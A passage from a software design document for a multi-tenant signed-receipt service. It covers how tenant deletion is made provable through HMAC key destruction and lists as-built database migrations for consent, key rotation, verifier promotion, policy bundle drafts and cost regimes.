- **What is lost, honestly:** *inclusion proofs for deleted events can no longer be demonstrated from our side*, because demonstrating one requires the event bytes (or their leaf hash, which we also purge with the event). A customer who exported their events + inclusion paths before requesting deletion can still verify them against the retained roots with the standalone verifier, forever — verifiability transfers to whoever holds the bytes, which is exactly where a deletion regime wants it.
- **The deletion itself becomes provable.** The offboarding job's steps are receipted into the same chain, so "you deleted my data" is not a support-ticket assertion; it is a signed, witnessed, offline-verifiable chain suffix — the receipt product's answer to its own deletion obligation.
- **Retained digests are not retained data.** Every content-derived digest in the chain and ledger is per-tenant HMAC-salted, and step 5 destroys the tenant's HMAC key. After key destruction a retained digest is unlinkable to any content even by dictionary attack over low-entropy inputs — it degrades from "commitment to specific content" to "opaque random string that once anchored a signature." That is the precise sense in which keeping the chain satisfies the deletion obligation: what remains can verify, but can no longer reveal, correlate, or reconstruct.

## Schema additions landed 2026-09-16 (migrations m1_064 – m1_075, adj_001)

Reconciliation appendix: every table below exists in `migrations/` with canonical FORCE-RLS `tenant_isolation` (the two-arg `current_setting('app.tenant_id', true)` form) unless marked cross-tenant, and its grants follow the m1_060 role split. The printed DDL earlier in this document is the design; this section is the as-built delta and names the section it extends.

| Migration | Objects | Extends | Notes |
|---|---|---|---|
| `m1_064_federation_fixes` | `m1_tenants.federation_opted_out_at`; `org_verification` becomes a VIEW over `m1_organizations` (one verification truth, m1_001); `federation_contributions` view (`security_invoker`) = contributions ⋈ verified org ⋈ not-opted-out tenant; `fed_domain_root()`, `fed_debit_epsilon()` (SECURITY DEFINER, the gate trigger's last step), `trg_fed_append_only` on publications/spans/producers; partial unique `(tenant_id, publication_id)` on `epsilon_ledger` | §Federation | Closes 2026-09-15 findings 1, 2, 3, 6 + opt-out (CON-011). Collusion collapse is derived transitively over shared `billing_customer_id` or domain root (last two labels; PSL upgrade noted). |
| `m1_065_judge_consent` | `m1_cloud_judge_consents(tenant_id, judge_id, subprocessor, region, max_tier, consented_by, consented_at, revoked_at, revoked_reason)`; partial unique on live rows | §Judges (06 §6.5 preconditions) | `judge_id` CHECK widened by m1_073/m1_074 to `^(judge\|rm\|t3):[a-z0-9-]+@[1-9][0-9]*$` — the T2 reward model and the T3 certified run consent under the same row shape. |
| `m1_066_rollout_cursor` | `rollout_cursor(tenant_id, channel) → seq, cohort_percent, step_started_at, health_ticks, halted_at, halt_reason, rollback_seq` (FKs to `policy_bundles`, CHECK `rollback_seq > seq`) | §Policy bundles (05 §4.3 canary controller) | CAS-saved per tick; the controller re-scopes M1E-3005 to the rollout's own seq. |
| `m1_067_job_runs` | `job_runs(job, tenant_id, window_start) PK → outcome ∈ running\|succeeded\|failed\|parked\|skipped_prereq_failed, attempts, requested, receipt_id, error, started_at, finished_at`; CHECK running ⇔ `finished_at IS NULL` | 06 §7.2/§7.3 (replaces the designed `intel_jobs`) | Shared by intel and adjudicator (`intel_app`, `adjudicator_app` SELECT/INSERT/UPDATE). An absent or non-succeeded prerequisite row skips the dependent. |
| `m1_068_key_rotation` | `m1_server_signing_keys.cross_signed_by / cross_signature`; `key_rotation` admitted to both `m1_receipts` CHECKs; `key_manifests` (tlog leaves of kind `key_manifest`) | §Receipts, 05 §4.4/§4.5 (ADR-0004) | Cross-sign input `"mark1-key-rotation-v1\0" ‖ role ‖ 0x00 ‖ pub32`, roles `server_chain \| update \| bundle:<section>`. |
| `m1_069_verifier_promotion` | `m1_verifier_promotions(tenant_id, verifier_id) → state ∈ probation\|shadow\|lcb_promoted\|canary\|active\|retired, shadow_n, lcb, ucb, bar, cert_id, measured_at, state_since`; append-only `m1_verifier_promotion_transitions`; triggers `born_in_probation`, `state_via_ledger` (the head's state changes only from inside the ledger trigger), `promotion_transition` (legal edges, D38 count, LCB > bar, fresh evidence, `mark1_assert_certified`); `promoted_is_earned` CHECK; receipt class `verifier_promotion` | 06 §12.4 (one promotion law) | Per `(tenant, verifier)`, not a column on `m1_verifiers` (m1_020 immutability; labels are per-tenant certified verdicts). |
| `m1_070_bundle_drafts` | `bundle_drafts(tenant_id, channel, window_start)` → six per-section `bytea`, `draft_hash`, `max_age`, `knee_gate_ok`, `knee_note`, `state ∈ pending\|published\|refused`, `refusal_reason`, `published_seq` FK, `canary_plan jsonb`, `claimed_at` | §Policy bundles, 05 §4.1 (the in-repo publication path) | The compiler holds no key and no publish verb: it INSERTs a draft (intel_app), controld's draft publisher vets (hash, knee gate, strict decode) and calls `Module.Publish`. |
| `m1_072_receipt_idempotency_key` | `m1_receipts.idempotency_key text` + partial unique `(tenant_id, record_type, idempotency_key)` | §Receipts (C13) | Idempotency for `POST /internal/v1/receipts/append` is keyed on the caller's attempt, never on `subject_id` (a re-admitted artifact or re-issued cert legitimately repeats a subject). |
| `m1_074_certified_runs` | `m1_certified_runs` (E1-only CHECK, FK `consent_id → m1_cloud_judge_consents`, signed `divergence`, `tenant_divergence` running mean, `receipt_id` NULL until a `certified_run` receipt class exists) | 06 §2 (tier T3), 10 §11.3 (anchor-vs-T3 divergence) | Consent key `t3:e2b@1`. |
| `m1_075_tenant_regimes` | `m1_tenant_regimes(tenant_id PK → cost_basis usd\|quota, price_model_id, window_limit_tokens, shadow_price_usd numeric(12,4), v_default numeric(14,4) > 0, set_by, set_at)` with CHECK usd ⇒ model set and quota fields NULL, quota ⇒ model NULL, `window_limit_tokens > 0`, `shadow_price_usd ≥ 0`; `m1_tenant_regime_history` append-only via `m1_append_only()`, mirrored by an AFTER INSERT OR UPDATE trigger | 06 §8.4 / §10.3 (cost bases) | The usd `model_prices` table is repo data: `python/intel/app/pricing/model_prices.v1.json`; reports and drafts stamp `model_prices.v1@sha256:<file digest>`. One regime row per tenant (06 §10.3's two tables per tenant need a `(tenant, channel)` key that does not exist yet). |
| `adj_001_spectral_runs` (adjudicator) | `spectral_runs(tenant_id, window_start) PK → window_days, n_tasks, passed, diagnostics jsonb, confusion jsonb, prior jsonb` | 06 §4.3 (G1–G6 persisted per run) | `certs.recompute` copies `passed` + diagnostics onto the certificate row. |
